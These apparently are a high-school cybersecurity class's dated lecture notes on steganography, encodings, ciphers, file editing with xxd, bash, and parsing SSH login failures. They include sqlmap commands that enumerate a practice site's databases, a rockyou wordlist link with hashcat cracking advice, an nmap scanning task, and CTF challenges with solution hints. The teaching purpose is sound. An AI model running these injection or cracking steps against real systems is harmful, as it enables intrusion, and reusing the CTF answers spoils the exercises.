//pixels that have red and blue values that end in 000 have secret hidden in the green channel
if( /*complete this boolean */){
//the last 2 bits of the green channel is 1/4 of a character
//extract the last 2 bits of the green channel and store in part of value
int partOfValue = /*complete this expression */;
//add a 0,1,2 or 3 to the list of all the secret values
data.add(partOfValue);
count++;
}
}
println(reassemble(data));
}
2022-04-07
I do not plan on going through all of the tools that you will ultimately need to decode things. You will need to learn some google fu to master the world that is around you.
Stegonographic tools:
Audio
- Reversed audio - Can be reversed with common audio editing tools such as Audacity
- Morse - Long beeps and short beeps, or when in text form dashes and dots. You can use morsecode.world's adaptive decoder to listen via mic or uploaded file for decode. https://morsecode.world/international/decoder/audio-decoder-adaptive.html
- Spectrograms - Spectrographic messages often sounds like noise, but displays an image when analyzed with a spectrographical visualizer. https://manual.audacityteam.org/man/spectrogram_view.html
-
SSTV Often very high pitched sounds with a "fast rythm". Can be converted to still images by using SSTV tools for computer or phones.
- Windows MMSSTV https://hamsoft.ca/pages/mmsstv.php
- Linux qsstv http://users.telenet.be/on4qz/qsstv/manual/index.html
- MacOS - Multiscan 3B https://www.qsl.net/kd6cji/ or Multimode http://www.blackcatsystems.com/software/cw-rtty-sstv-fax-psk31-packet-decoding-software.html
Images
- Low contrast (LSB/MSB steganography) - Secrets can sometimes be hidden by lowering the contrast in an image so much that its features becomes indistinguishable to the eye/monitor. Can be examined with most imaging software.
- stegsolve (run with java -jar Stegsolve.jar) and cycle through different color maps. https://www.wechall.net/forum/show/thread/527/Stegsolve_1.3/page-1
- Krita https://krita.org/en/
- GIMP https://www.gimp.org/
- steghide Tutorial here: https://linuxhint.com/steghide-beginners-tutorial/
- stegoVeritas https://github.com/bannsec/stegoVeritas
- outguess https://www.rbcafe.com/software/outguess/
- StegoSuite https://stegosuite.org/
- F5 https://github.com/matthewgao/F5-steganography
Other
QR codes and other barcodes - See the barcode wiki for examples. Can be decoded by many smart phone apps and online tools.
Hint: http://onlinebarcodereader.com
Text Encoding
- Binary - Sequences of 0's and 1's. When used in ARGs it can often be decoded to common charsets such as ASCII, UTF, etc.
- Hexadecimal (Base 16) - Strings consisting of letters 0-9 and letters A-F. Can often be decoded in the same way as binary.
Example: 48 65 6c 6c 6f 20 77 6f 72 6c 64 21 - Base 32 - Strings consisting of letters 2-7 and uppercase letters A-Z with = as padding.
Example: KRSXG5DJNZTQU=== -
Base 64 - Strings consisting of upper and lower case letters, numbers, =,+, / and no white space.
Can often be decoded to text (like binary above) but also to images, sound, video, etc.
Example: VGVzdGluZwo= - ASCII/Decimal - Strings consisting of numners 0-9 with two or three characters.
Example: 72 101 108 108 111 32 119 111 114 108 100 33 - Octal - Strings consisting of numbers 0-7 in groups of three (sometimes two if leading zero is omitted).
Example: 110 145 154 154 157 040 127 157 162 154 144 041 - Morse - Strings of dots, dashes and spaces.
Example: .... . .-.. .-.. --- / .-- --- .-. .-.. -.. -.-.-- - snow - Whitespace steganography tool http://www.darkside.com.au/snow/
Processing
Please install processing 3.x on your personal computers, it is just a zip file that you extract somewhere. No heavy installation required.
Steganography
2022-04-06
Steganography
Steganography is the practice of hiding a secret message in something that is not secret. Images, text, video, wordProcessor documents and other files can store secret messages, scripts, and other data.
Brainstorm
How could you modify each of the following non-secret things to store a secret message?
- Printed text
- Digital Text
- Image File
- Sound/Video files
Text Steganography
There are several categories of text steonography:
-
format
- feature encoding (e.g. font/shapes/styles of letters)
- line or word shift (e.g. the text is a pixel higher or lower)
- whitespace
- linguistic
- switching words for synonyms
- hiding text in the existing word structure
- random and statistical
Regarding spaces there are many things that you can alter:
Examples:
Plain text
Consider a message sent in wartime (possibly one that you decrypted with an enigma machine:):
Apparently neutral’s protest is thoroughly discounted and ignored. Isman hard hit. Blockade
issue affects pretext for embargo on by-products, ejecting suets and vegetable oils
Look at the 2nd letter of each word:
Pershing sails from NY June I
Printed
Consider some text printed and sent:
Tweet!
How about a tweet? Though it could have been any printed text as well:
Image steganography:
Numbers can be stored in different parts of an image. The least significant bits of each pixel can be changed without changing the percievable image.
2021-11-08
Do Now:
Fill out the google form regarding the probelms you were able to complete.
Big Project:
Go over some basic tools that everyone should be able to use (not just cybersecurity)
Discuss other topics
2021-11-05
SQLMAP
SQLMAP is an automatic injection tool!
sqlmap --url https://hack-yourself-first.com/Make/7?orderby=a --dbs -batch
sqlmap --url https://hack-yourself-first.com/Make/7?orderby=a -D hackyourselffirst_db --tables --batch
Big Project:
https://tryhackme.com/room/ctfcollectionvol1 has a large number of challenges. Some you know how to beat, some you need to learn.
Your goal is to write a tutorial to teach someone how to complete the entire collection.
First focus on completing as many of the flags as you can without too much googling.
Second focus on learning the rest of the flags. I will speak about some of the challenges based on how many people complete them.
More difficult ones will be given some lecture time.
2022-04-05
Homework due Thursday: (much must be done at home)
Nmap is a really powerful nentwork tool. It already exists on the attack box, and you cannot use it in school. Download nmap to your personal device: https://nmap.org
Tryhackme room https://tryhackme.com/room/furthernmap
Scan your home network for devices using nmap. (more details soon)
Super basic networking overview
Applications use tcp/ip to send data to and from other applications on other machines.
IP addresses are unique to each device
IPv4
32 bit address gives us 4.3 x 109 different addresses
The allowed number of addresses does not allow every device to have a unique address, they must be shared and masked.
Address is written in dotted decimal notation. e.g. 192.0.2.75
IPv6
128-bit address gives us 7.9 x 1028 addresses.
This means that every device can have a unique address!
Address is written in hexadecimal separated by colons.
The address 2001:0db8:0001:0000:0000:0ab9:C0A8:0102 can be rewriten without leading zeros, and with 4 consecutive zeros eliminated:
2001:db8:1::ab9:C0A8:102
IPv6 dual
An IPv6 address combines an IPv6 and an IPv4 address and has the following format: y:y:y:y:y:y:x.x.x.x. The IPv6 portion of the address (indicated with y's) is always at the beginning, followed by the IPv4 portion (indicated with x's).
Home Network
NAT
Network Address Translation will allow you to use one IP address for multiple devices behind a router.

2022-04-04
Binwalk
Binwalk is a tool for explore a given binary image for embedded files and executable code. Specifically, it's designed for identifying files and code embedded inside firmware images.
Binwalk is a useful tool that you should learn to use when trying to separte parts of a file. It can do so many other things, but I am just showing you the documentation (man pages).
You can man binwalk to see how it works but some examples could be helpful:
Examples of the extract command:
Extract any files from the input file:
binwalk --dd=".*" INPUT_FILE_NAME
More complex:
-D : Extracts files identified during a --signature scan. Multiple --dd options may be specified.
-D 'type[:ext[:cmd]]'- type is a *lower case* string contained in the signature description (regular expressions are supported)
- ext is the file extension to use when saving the data disk (default none)
- cmd is an optional command to execute after the data has been saved to disk
Extract all png files from a file:
binwalk -D 'png image:png' INPUT_FILE_NAME
Extract and run another program (in this case Unzip):
The following example demonstrates specifying an extraction rule using the --dd option that will extract any signature that contains the string 'zip archive' with a file extension of 'zip', and subsequently execute the 'unzip' command.
binwalk -D 'zip archive:zip:unzip %e' firmware.bin
Same as before, but additionally, PNG images are extracted as-is with a 'png' file extension.
binwalk -D 'zip archive:zip:unzip %e' -D 'png image:png' firmware.bin
Note the use of the '%e' placeholder. This placeholder will be replaced with the relative path to the extracted file when the unzip command is executed:
Try it Now:
Try to extract data from the following two files. When you do this with -D , binwalk creates a directory. You can open the contents yourself... based on the data type.
Download the file: cat
Download the file: cat2
Last Challenge:
To find the flag from the last problem:
Download and install wireshark on your personal device. https://www.wireshark.org/ This is a handy tool to have, there are classes on how to use this one tool.
Use wireshark, or an online pcap tool such as https://apackets.com/ or https://packettotal.com/ and figure out the last challenge fromt he CTF. This is a little digging on your part, but you should be able to do it!
2022-04-01
Update on deadline
Lab 4 due: Wednesday 04/06/2022You will have class time Thursday, Friday, and Monday. Homework time Thursday, Friday, Monday and Tuesday.
Exif Data
Exif is a standard for storing metadata in images. You can actually look at the head of the file it is usually plain text.
You can view exif data in most operating systems by viewing the image properties. There are also tools to do this, including web tools: https://exifdata.com/
Steganography
Steganography is the practice of hiding a secret message in something that is not secret. Images, text, video, wordProcessor documents and other files can store secret messages, scripts, and other data.
Stegsolve
https://wiki.bi0s.in/steganography/stegsolve/In the lab, you can invoke stegsolve directly using:
java -jar ~/Documents/cyber_resources/stegsolve/stegsolve.jar
Since this is a java program it works on any system.
You can test stegsolve on ~/Documents/cyber_resources/stegsolve/mountain.png
Steghide
Marge has steghide installed. You can install it on your personal device as well:
https://wiki.bi0s.in/steganography/steghide/For windows: http://steghide.sourceforge.net/download.php
Not Steganography
Using wireshark for the last flag is actually pretty simple.
Download and install wireshark on your personal device. https://www.wireshark.org/
For challenge 21, Open the pcap file using wireshark. See if you can find the flag using a search function since you know what all flags look like.
2022-03-31
Pclassic time is upon us!
Read about what you need to do here: http://bert.stuy.edu/pbrooks/pclassic/PClassic-spring-2022.html
CTF collection vol1
It is time to tackle a CTF (Capture the Flag).
The ctf is located here: https://tryhackme.com/room/ctfcollectionvol1
Your assignment:
Since there are already several guides posted, your assignment will be to write your own guide/tutorial for this set of challenges that is.
- In addition to completing the room, you will produce a document that explains the how/why of each problem.
- It is not sufficient to say "use this website to solve this question" or something similar. You must explain the context of the question (what you need to know about to solve it), and what methodology is required to solve it.
- You don't have to explain how to do number base conversion or the precise algorithm for decoding something, but you need to impart some wisdom onto the reader of your walkthrough, not just direct them to google the question. This could include how to recognize what the problem is asking (with or without the hint, depending on the hint).
There are 21 (really 20) problems. You should start with the ones that you can complete on your own, then start to research the ones that you cannot solve right away.
Submission Deadline:
Wednesday 04/06/2022You will have class time Thursday, Friday, and Monday. Homework time Thursday, Friday, Monday and Tuesday.
Submission format:
Place your tutorial in the Lab04-CTF directory in your cybersecurity repository. This will be weighted a bit more than the other labs due to the scope and length of the assignment.
Your deliverable result will be a git markdown file CTFWalkthrough.md
You can learn about git markdown here: https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet
Miscelaneous
You should use any online calculators for deciphering number bases and to make ascii -> hex easier to deal with.
You should Try to crack the vigenere yourself before you resort to a calculator.
Some of the questions so you don't have to load the entire CTF:
- 2. Can you decode the following? VEhNe2p1NTdfZDNjMGQzXzdoM19iNDUzfQ==
- 8.Can you decode it? 3agrSy1CewF9v8ukcSkPSYm3oKUoByUpKG4L
- 13. What is this? ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.
- 14.Exclusive strings for everyone! S1: 44585d6b2368737c65252166234f20626d S2: 1010101010101010101010101010101010
- 19. Can you solve the following? By the way, I lost the key. Sorry >.< MYKAHODTQ{RVG_YVGGK_FAL_WXF} Flag format: TRYHACKME{FLAG IN ALL CAP}
- 20.Decode the following text. 581695969015253365094191591547859387620042736036246486373595515576333693
Hints at the end so you can look at them after you think a little:
HINTS:- 2:base64
- 8:base58
- 13:binaryfuck
- 14:S1 XOR S2
- 19: Find the key of vigenere cipherc
- 20: dec -> hex -> ascii
Other OTHER Tools
2022-03-30
Section 1. Do Now:
If you needed to download the files from marge.stuy.edu onto your machine:
~/Documents/cyber_resources/fileEdit/win.txt
~/Documents/cyber_resources/fileEdit/lin.sh
~/Documents/cyber_resources/fileEdit/image.png
What tool can you use to download it?
What would the steps/commands be?
What other tool could you use? Even if you aren't familiar?
If you are not using a lab machine you need to get the files now!
Section 2 FTP, SCP and other transfer tools
cp is the copy command.
cp source destination
e.g.
cp ~/Download/file.doc ~/Documents/
You should know mv, cp as they have the same parameters.
mv ~/Download/file.doc ~/Documents/
Now let us look at scp becuse it is even MORE powerful!
scp has the same format:
scp source destination
EXCEPT the source and destinations can be remote hosts that you have ssh access to!
If the source is on marge you could use: "marge.stuy.edu:DIRECTORY/FILE"
example: copy the file from your local machine current directory to your home directory on marge:
scp ./fileInCurrentDirectory.txt marge.stuy.edu:~/
example: copy all files that end in .java from your documents directory on marge to your Documents directory on your local machine, but specify the user name (your personal device username is not the same as your stuycs username):
scp amatsuyoshi24@marge.stuy.edu:~/Documents/*.java ~/Documents/
Section 3. Comparing Files:
DO IT: Make both files (win.txt and lin.txt) executeable using the chmod command (your local copy, not the original!)
chmod +x FILE
DO IT:Now run the command ./win.txt and ./lin.txt and compare the results.
xxd hex with metadata:
You should remember the xxd command:
xxd input_file
This shows the hex values AND the plain text along side. Great for previewing the information while looking at the hex values. This is not ideal if you want to edit the results however.
xxd to plain hex with no metadata:
xxd -p input_file
This ONLY shows the hex values, and makes it easier to modify if you know which parts you are trying to edit.
You can redirect this to another file so you can save it!
STOP AND DO IT!
DO IT:View lin.txt and win.txt as hex. What is the difference?
Hexdump back into a binary file
You can use xxd to get the plain text hex back to binary
Revert a plaintext hexdump back into binary, and save it into a file:
xxd -r -p input_file output_file
or:
xxd -r -p input_file > output_file
Now you can convert the original file to plain text hex, edit that, then convert back to a new edited file:
xxd -p FILE.original > temp
#EDIT YOUR temp FILE
xxd -p -r temp > FILE.new
This is not always useful on text files, but you can tell the difference between a windows line ending and a linux line ending, and even fix it!
Try fixing an image file with a bad header:
PNG files are really great, but if you change ONE bit in the header, it will not open with an image viewer.
https://en.wikipedia.org/wiki/Portable_Network_Graphics#File_headerTo save you the page load:
| Values (hex) | Purpose |
|---|---|
| 89 | Has the high bit set to detect transmission systems that do not support 8-bit data and to reduce the chance that a text file is mistakenly interpreted as a PNG, or vice versa. |
| 50 4E 47 | In ASCII, the letters PNG, allowing a person to identify the format easily if it is viewed in a text editor. |
| 0D 0A | A DOS-style line ending (CRLF) to detect DOS-Unix line ending conversion of the data. |
| 1A | A byte that stops display of the file under DOS when the command type has been used—the end-of-file character. |
| 0A | A Unix-style line ending (LF) to detect Unix-DOS line ending conversion. |
Section 4: Fix the PNG file
GOAL: Use the xxd command to view the png file
You should already have this file:
~/Documents/cyber_resources/fileEdit/image.png
Fix the header and convert the hex back to a normal using the -r flag of xxd.
2022-03-29
Terminology
confusion is the technique to ensure you do not give clues about the plain text in your ciphertext. This means we want the relationship between the ciphertext and the plaintext to be as complex as possible. Ceasar Cipher has poor confusion, while polyalphabetic cipers have better confusion, enigmacode has much better confusion.
diffusion is the spreading of the statistical structure of the plaintext over the bulk of the ciphertext. This is done by transposing or permuting the data. This occurs in hashing when a small change modifies the entire result.
Stream vs Block ciphers:
Stream ciphers are high speed, no diffusion, low hardware complexity so it is often implemented by some hardware. Each bit or byte is encrypted one at a time.
Block ciphers Software implementation lowers the speed, padding is added to make the messages a multiple of the block size. Each block is encrypted independently.
Passwords:
Let us use the shorthand for a type of password which contains many different symbols regardless of length, we will use the term "good password" to mean this. "good passwords" use Numbers, Upper+Lower case letters, AND symbols... That is about 80 possibilities on the keyboard per character. The number of passwords is therefore is 80x where x = password length.
- 80^1 80
- 80^2 6400
- 80^3 512,000
- 80^4 40,960,000
- 80^5 3,276,800,000
- 80^6 262,144,000,000
- 80^7 20,971,520,000,000
- 80^8 1,677,721,600,000,000
- 80^9 134,217,728,000,000,000
etc...
Fast computers can crack hashes VERY fast
Let us consider that a highly specialized computer or computer cluster can calculate billions of hashes per second. This means that a length 6 "good" password would take seconds to find the right hash, while a length 7 password would take minutes.
This is an arbitrary table that chooses an "old" fast way to crack passwords, newer ways are about 5-10 times faster. Notice that "1000 times faster! or 1 million times faster" would not help with passwords that are 15+ characters long.
As you can see from the image below: If everyone used randomized "good passwords" that were 15+ characters long, then cracking hashes would be impossible with current algorithms and hardware.
we will we will rockyou.txt
Lucky for hackers people are predictable and careless! They use the same really bad passwords.
There is a list of real world passwords called rockyou. This list "rockyou.txt" contains 14,341,564 unique passwords, used in millions of different accounts. By pulling real world used passwords you can quickly check these particular passwords before you try to crack all the random ones. This has a high chance of succeeding on people that don't use good passwords!
rockyou.txt contains the most frequently used passwords sorted by frequency.
Keep in mind that rockyou is not really effective against targets with good password policies. To succeed with a dictionary attack you may need to create your own wordlist especially if your target is not in an english speaking country.
Hackers often supplement this password list with other password lists that contain multiple word combinations and common letter substitutions.
You can easily aquire this list by googling: "rockyou password list" or "rockyou password list github"
You can also find rockyou.txt in your cyber_resources directory so you DO NOT download it onto the school network.
here is a link to the list: https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
Cracking hashes:
As a reminder the way you crack a hash is hashing words until the results match the hash of the password you are trying to find.
If you have a password list, you can try all of the common passwords first. This will weed out any weak passwords right away.
Hashcat
There is a popular hash cracking tool called hashCat. https://hashcat.net/hashcat/ has many versions of the tool including ones that use your graphics card to accelerate the cracking.
2022-03-28
Block Ciphers:
In a block cipher, K bits are encrypted at a time. If the length of the data is greater than K, you will break the information into blocks of size K.
Electronic Codebook (ECB) - Use the same key on each block of data. This is parallelizable since each block does not depend on the others.

Patterns of the original data are visible because equal sections of plaintext will generate the same ciphertext as is evident when looking at images encrypted using this method:
Original:

Encrypted:

You propagate data from one block to the next to make equivalent blocks of plaintext into unequal blocks ciphertext. You start with an initialization vector on the first block, and then use data from the previously encrypted block (the specifics depend on CBC/OFB) in the current block's calculation.
Both the key and the initialization vector are required for both encryption and decryption.
The encryption must be done sequentially. (Cannot be multi threaded)
Errors in transmitted ciphertext affect the decryption of future ones. Output feedback OFB fixes this.

Patterns of the original data are no longer visible:
Original:
Encrypted:

Counter mode: Instead of calculating the value to be used in the next block based on the prior block, a random number (Nonce) is used for the first block. That random value is then incremented by one for each subsequent block. This allows for parallelization and prevents errors in one block from affecting others.
Note: the key and the Nonce are required for both encryption and decryption


2022-03-25
Encryption Types:
Symmetric Encryption
TheSame key is used to encrypt and decrypt. (e.g. Password protected files)
Ceasar , Playfaire, Vigenere, and many other ciphers use the same key on both ends. The key must be exchanged ahead of time to allow the authorized parties to decrypt messages.
The most widely used digital cipher that use symmetric keys is AES (various number of bits). But there are others such as Blowfish/Twofish, RC4, RC5 ,DES.
Asymmetrical Encryption
Different keys are used to encrypt and decrypt. (public key cryptography)

Hash functions
A one way encryption (md5, sha, sha2, etc) that cannot be returned to the original form.
This is often used for authentication purposes
When you send data you can check if that data was transmitted correctly by also sending the hash of the data along with the data. If the hash value of the received data matches the hash that was sent then the data was sent correctly.
You can store hashes of passwords. You can still hash what a user types in to compare against the stored hash, but an attacker cannot see everyone's password.
Stream CiphersOne bit is encrypted at a time. This uses a random string of bits called the cipherstream which is combined with the plaintext using XOR.
The resulting ciphertext can be decrypted using the same cipherstream and XOR again. Stream ciphers must always use a different ciperstream for each message. The cipherstream can be a pseudorandom set of bits, in which case the random seed used can be the key. Alternatively, a truly random string of bits can be created and both the sender and receiver can keep a copy, they must then agree on which parts of that cipherstream to use on each message.
| Plaintext | ...111010100111... |
| Cipherstream [this is the key used to encode AND decode] | ...101011010110... |
| Ciphertext | ...010001110001... |
The reason that stream ciphers must always use a different ciperstream for each message, is that an attacker can XOR the two ciphertexts together (see below). When the cipherstream is the same, and you XOR the two ciphertexts together the result is equivalent to the XOR of the two plaintexts. If the plaintexts are natural languages then the resulting stream can be analyzed to find the original messages.
- XOR is commutative
- the inverse of a XOR is XOR'ing by the same value
- This result is very easy to decode using the same key and the ciphertext.
2022-03-22
Python
Opening files:
with open("test.txt", 'rb') as f: #read bytes mode
#code here
Opening two different files:
with open("test.txt", 'rb') as infile, open("test2.txt", 'wb') as outfile:
#code here
Python must open files in binary mode to write actual numbers. (mode is 'wb' to write bytes, or 'rb' to read bytes.)
In python use the to_bytes method to convert an int to a byte so it can be written in binary mode.
i=5
i.to_bytes(1, byteorder='big')
OR you can write your bytes using byte notation:
f.write(b'\x05')
To modify bytes you need to convert to another type like int:
b = b'\x05'
x = int.from_bytes(b,byteorder='big')
//modify x here
b = x.to_bytes(1, byteorder='big')
Java:
You can typecast an int to a byte! Then you can just write that to the file.
Since in previous years java people never had issues with this section, it is lower priority to give extra notes. I will add to this section later.
Lab-03
Pre-lab
Doing this section verifies you can perform the required operations that are part of the lab. This includes reading and writing binary files.
Writing individual bytesYour lab will require that you can write numbers to a file. This will be critical when storing encrypted messages. Ciphertext in digital ciphers is always binary, not plain text.
Section 0.1 Read/Write single bytes to a file.
Note that only numbers 0-255 fit in a single byte.
If you want to write a file that contains the integers 65 66 97 98
Do NOT write the symbols '6','5',' ',etc. You are writing numerical values. This file should be viewable by a text editor
Task 0.1
Write the following array to a file. Cat the file.
65,66,97,98,10,72,101,108,108,111,32,119,111,114,108,100,10
If you do it correctly you should see:
ABab
Hello world
Task 0.2
Read in the bytes from the file you just wrote, increment them by 1, and write to a different file.
The contents of the file should look like this when you cat it:
BCbc?Ifmmp!xpsme?
The ? is a non-printable character that might look like a box when you cat the file.
Accomplishment!
If you did the above, that means you can read any file, text or binary, and convert the data as needed. There are many ways to efficiently read larger files, buffering techniques etc, but we don't care about that for now.
Task 0.3
xxd is a hex viewer. Try to use it to view the files from parts 0.1 and 0.2:
xxd test.txt
00000000: 4142 6162 0a48 656c 6c6f 2077 6f72 6c64 ABab.Hello world
00000010: 0a
and:
konstans@Hydra:~$ xxd test2.txt
00000000: 4243 6263 0b49 666d 6d70 2178 7073 6d65 BCbc.Ifmmp!xpsme
00000010: 0b
Notice that xxd displays 16 bytes at a time. Grouped 2 bytes with spaces between them.
The bytes are displayed in hexadecimal, and there is a lot of extra stuff to look at.
The right side of the output shows the characters that the hex represents.
To just see the bytes in hex without the spaces or the extra left column:
xxd -p test.txt
414261620a48656c6c6f20776f726c640a
To just see the bytes in hex and show 8 bytes on each line:
xxd -p -c 8 test.txt
414261620a48656c
6c6f20776f726c64
0a
Finally to show 8 per line, grouped 1 byte at a time, but still show the extra info on left/right sides:
xxd -c 8 -g 1 test.txt
00000000: 41 42 61 62 0a 48 65 6c ABab.Hel
00000008: 6c 6f 20 77 6f 72 6c 64 lo world
00000010: 0a .
Task 0.4
We often want text files that do NOT have a newline at the end. This is easy to verify when you cat the file, your terminal prompt will follow the text output when there is no terminating newline.
Try to save a text file using a text editor and cat it. Most likely the file has a newline at the end. Try to create a file in nano, with "asdf" and NO newline at the end:
USER@HOST:~$ nano oops.txt
USER@HOST:~$ cat oops.txt
asdf
USER@HOST:~$
Oh no! Nano added a newline!
This is not acceptable if a file needs to contain only text we want, such as a key. We don't want to strip away newlines when we work with keys, because a newline might be part of the key. But we don't want an extra newline either!
Try this, cat > filename. This will read from standard input (keyboard) and send that to the file.
Type the letters you want "asdf" in this case, then pres ctrl+D twice. This will end the file reading.
USER@HOST:~$ cat > oops2.txt
asdfUSER@HOST:~$
Now you can see if the file has a newline using cat:
Notice it didn't go to the next line before the prompt came back that is a good sign.
$ cat oops2.txt
asdfUSER@HOST:~$
This clearly is missing the newline! We can proceed.
Now you are ready for your lab!
You will be writing a program that can do the following:
- Print the hex values of a file (file can be binary or text doesn't matter)
- encode a text file into a binary ciphertext (using a plain text key).
- decode a binary ciphertext into a text file (using a plain text key).
This means the key won't be used for now.
makefile recipes:
- make hexdump ARGS="filename"
- make encode ARGS="inputTextfile keyfile outputCiphertextfile"
- make decode ARGS="inputCiphertextfile keyfile"
1.1 hexdump
Your hexdump should be formatted like: "41 42 61 62 0a 48 65 6c"
You can verify your hexdump by comparing to the xxd values!
1.2 and 1.3
I won't give you the specifics of the encoding / decoding scheme right now.
As a preliminary encoding you can do this:
- encode will increment each byte by 1
- decode will decrement each byte by 1
This is just for testing purposes. It makes you focus on getting the reading bytes part working.
Note that 255 is the largest byte, so (255 wraps to 0)
make encode ARGS="textfile keyfile ciphertextfile"In this recipe textfile is the input, ciphertextfile is the output file. It should not print anything. This is because we can't always print the ciphertext characters as you saw previously.
make decode ARGS="inputCiphertextfile keyfile"In this recipe the output will be the decoded text.
Try to have this by Thursday, and we can talk about the algorithm to encode/decode later.
2022-03-21
"The most effective debugging tool is still careful thought, coupled with judiciously placed print statements" - Brian Kernighan, Unix for Beginners.
Warning
Make sure your labs work when you clone the repo and run the make recipes. There should not be an extra step like "make compile" before running your code!
Makefiles
makefile nameRegarding makefiles: You can call your makefile either "makefile" or "Makefile", nothing else.
outputThe output should be only the result of your programs with no extra output. We accomplish this by adding an '@' symbol before your commands. The @ in the makefile suppresses your run commands from showing up as output.
cleanYour makefile should work WITHOUT the user manually compiling the code, accomplish this by adding the compile command to your recipe (easier) or using dependancies properly(better but not part of the course).
If you use a compiled language and regularly compile your code, you may not realize your makefile doesn't work!
Compiled language users should add a recipe "clean" that deletes all compiled code.
in java you should rm *.class
This allows you to test your makefile as if it were a new cloned copy of your codebase.
Examples
Note: If you copy/paste this makefile you need to replace the tabs with a real tab:
run:
@echo "usage: make (decode|encode) keyfile inputfile"
decode:
@python xor.py decode $(ARGS)
encode:
@python xor.py encode $(ARGS)
clean:
@echo "nothing to remove because python!"
File that works with the makefile:
import sys
mode = sys.argv[1]
keyfile = sys.argv[2]
inpfile = sys.argv[3]
key = open(keyfile,"rb").read()
in = open(inpfile,"rb").read()
if(mode == "encode"):
#Write your code to encode
if(mode == "decode")
#Write your code to decode
Bash Script
reminder: you can put multiple statements into a script so that you can run the command again later without having to look through your history.
In case you forgot, the history command can show you all of the commands you ran previously.
bash supports control flow techniques including if, case, while and for. Similarly, bash has functions that take arguments and can operate with them. Here is an example of a function that creates a directory and cds into it.
mcd () {
mkdir -p "$1"
cd "$1"
}
$1 is the first argument to the script/function. Unlike other scripting languages, bash uses a variety of special variables to refer to arguments, error codes, and other relevant variables. Below is a list of some of them.
A more comprehensive list can be found here.
- $0 - Name of the script
- $1 to $9 - Arguments to the script. $1 is the first argument and so on.
- $@ - All the arguments
- $# - Number of arguments
- $? - Return code of the previous command
- $$ - Process identification number (PID) for the current script
- !! - Entire last command, including arguments. A common pattern is to execute a command only for it to fail due to missing permissions; you can quickly re-execute the command with sudo by doing sudo !!
- $_ - Last argument from the last command. If you are in an interactive shell, you can also quickly get this value by typing Esc followed by .
Color Output on terminal:
Full set of color documents can be found here: https://robotmoon.com/256-colors/
The following prints the message This is red in red on your terminal, as long as it supports true color.
echo -e "\e[38;2;255;0;0mThis is red\e[0m"
"\e[38;2;255;0;0m" sets the color to red
"\e[0m" resets the terminal to normal
If your terminal doesn’t support this (e.g. macOS’s Terminal.app), you can use the more universally supported escape codes for 16 color choices, for example:
echo -e "\e[31;1mThis is red\e[0m"
Colors can be found if you look around... https://gist.github.com/JBlond/2fea43a3049b38287e5e9cefc87b2124
Or loop many colors: using an RGB notation only works on true color terminals
Switching to printf to substitute values more easily
for R in {0..255..15}; do
printf "\e[38;2;${R};0;0m#\e[0m"
done
I stop short of nyancat rainbow puke but here is something you can see:
for R in {0..255..32}; do
for G in {0..255..32}; do
for B in {0..255..32}; do
printf "\e[38;2;${R};${G};${B}m#\e[0m";
done
done
done
Note: that if you want to use sed to replace something with colors, you can't use \e, you must use \x1B
Something like this would replace the 1st capture group (a 3 letter word at the start of the line) with a red version of the same thing:
sed -E 's/^(\S+ )(.*)/ \x1B[38;2;255;0;0m \1 \x1B[0m \2 /'
Spaces added for clarity on the output side of the sed.
2022-03-18
Continuation from yesterday
You will try to use grep/sed and the files from yesterday along with some other terminal tools to do some calculations:
Part 1:
Filter the failed attempts to JUST be IP addresses.
Use sed to accomplish this.
Two examples:
Replacement and capture groups
take the output of a program "xxxxxx xxxxxx NAME xxxxxx" and replacing it with just "NAME"
echo "xxxxxx xxxxxx NAME xxxxxx" | sed -E 's/[x ]+/--/'
result is: --NAME xxxxxx because 's/A/B' replaces A with B. [x ]+ is any set of x's and spaces.
echo "xxxxxx xxxxxx NAME xxxxxx" | sed -E 's/[x ]+[A-Z]+/--/'
result is: -- xxxxxx This now includes the name in the replacement.
The [A-Z]+ is the name, we will turn this into a capture group:
>echo "xxxxxx xxxxxx NAME xxxxxx" | sed -E 's/[x ]+([A-Z]+)/-\1-/'
result is: -NAME- xxxxxx notice the \1 turns into the 1st capture group! in the replacement section
Finally we can try to match the entire string as follows. Add [x ]+ after your name matching, and remove the -'s from the repalacement string.
echo "xxxxxx xxxxxx NAME xxxxxx" | sed -E 's/[x ]+([A-Z]+)[x ]+/\1/'
result is: NAME
Matching up to a specific word(or words)
cat words results in:
If you want to match UP TO a string or multiple strings you can do the following:
cat words | sed -E 's/^.*(dog |fish )//' will replace everything UP TO dog or fish and replace with nothing.
cat words | sed -E 's/.*(dog|fish).*/\1/' will capture the entire line and replace it with capture group 1. The \1 in the replacement field stands for capture group 1.
This effectively strips away all parts on the left and right side of the words we wanted. Now lets try to combine our regex powers...
Actual text to replace looks like this:
Mar 17 13:28:08 marge sshd[1417590]: Failed password for invalid user elle from 134.209.154.246 port 33668 ssh2
Mar 17 13:28:10 marge sshd[1417590]: Disconnected from invalid user elle 134.209.154.246 port 33668 [preauth]
Since Disconnected happens after the failed password We only care about "Failed password" and can grep for that.
Start with a simple replacement on the tail (last 10 lines of the file):
tail MargeFailedAttempts.txt | sed -E 's/marge/steve/'
tail MargeFailedAttempts.txt | grep "Failed password" | sed -E 's/marge/steve/'
Part 2:
Now try to make the regex that matches the whole line but includes CAPTURE GROUPS for the username and the IP address
The end result should be each line is replaced with "IP username"
tail MargeFailedAttempts.txt | sed -E 's/REGEX/REPLACEMENT/'
e.g.
tail MargeFailedAttempts.txt | sed -E 's/^REGEX(GROUP1)REGEX(GROUP2)REGEX$/\1 \2/'
results:
If that works: run it on the whole file, don't use tail.
Try switching the \1 and \2 or removing one.
Protips:
- Use regex101 to help you figure out why some lines do not get matched!
- Come up with a regex for usernames to drop into your line. Usernames may not all look like the first/last few in the file
Done with that?
You can modify the above to ONLY give you the usernames, or only the addressses by using \1 OR \2 but not both. If you do this, you can redirect that to a temporary file so you can work with a much simpler regex.
You can also use 'sort' and 'uniq' to remove duplicates
Questions: [submit on google classroom]
For each problem: If you used a command to calculate the result, submit the command you used the result of the command and an explanation of how it worked. A ballpark result is given so you know if you are close or not.
- What flag of the uniq command shows the number of duplicates?
- What flag of sort can sort numbers properly?
- How many total attempts to log in as root were there? (~19000)
- How many times was the account postgres used to try to connect? (~180)
- How many unique IP addresses tried to connect as root? (~470 if you exclude rootroot, root1, root2 etc.)
